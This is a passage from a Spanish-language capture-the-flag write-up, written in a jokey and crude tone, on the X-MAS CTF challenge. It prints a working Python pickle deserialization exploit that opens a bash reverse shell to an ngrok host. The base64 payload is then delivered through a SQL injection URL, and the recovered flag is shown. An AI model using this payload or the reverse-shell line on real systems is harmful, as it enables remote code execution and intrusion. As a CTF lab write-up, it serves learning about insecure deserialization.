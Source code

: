 ![que mira bobo](/ctf/assets/images/messi-que-mira-bobo.png)

Que leendoo.

Bueno vamos directo al exploit así nos tiramos un Reverse Shell que ya me da japa seguir escribiendo.

{% highlight python %}
import pickle, os
from base64 import b64encode

class QuemiraBoboooo(object): # bobo el que lee
    def __reduce__(self):
        return(os.system,("bash -c 'bash -i >& /dev/tcp/0.tcp.sa.ngrok.io/18840 0>&1'",))

falopa64 = b64encode(pickle.dumps(QuemiraBoboooo()))

print(falopa64)

{% endhighlight %}

Simplemente creamos el objeto `QuemiraBoboooo` y definimos el método `__reduce__`. Según me dijo mi profesor de serializaciones este método loco tiene que retornar un `string` o en este caso una `tupla`. El primer elemento de la `tupla` tiene que ser un objeto invocable `os.system`, lo mas loco es que este objeto se va a llamar durante el `unpickling`. Lo que sigue son los argumentos del objeto, en este caso nuestro reverse shell.

`bash -c 'bash -i >& /dev/tcp/0.tcp.sa.ngrok.io/18840 0>&1'`

Después dumpeamos `QuemiraBoboooo` con `pickle` y lo codificamos en `base64`.

Y a soplar la vela.

{% highlight bash %}
$ python3 exploit.py                                                                                    
b'gASVVQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDpiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzAudGNwLnNhLm5ncm9rLmlvLzE4ODQwIDA+JjEnlIWUUpQu'
{% endhighlight %}

{% highlight text %}
http://challs.htsp.ro:13001/1%20UNION%20SELECT%20'gASVVQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDpiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzAudGNwLnNhLm5ncm9rLmlvLzE4ODQwIDA+JjEnlIWUUpQu'%20LIMIT%201
{% endhighlight %}

![Pwned](/ctf/assets/images/Pwneddd.png)

`X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}`

Feli navida, no usen pickle, escabien mucho, metanle clona a la abuela.
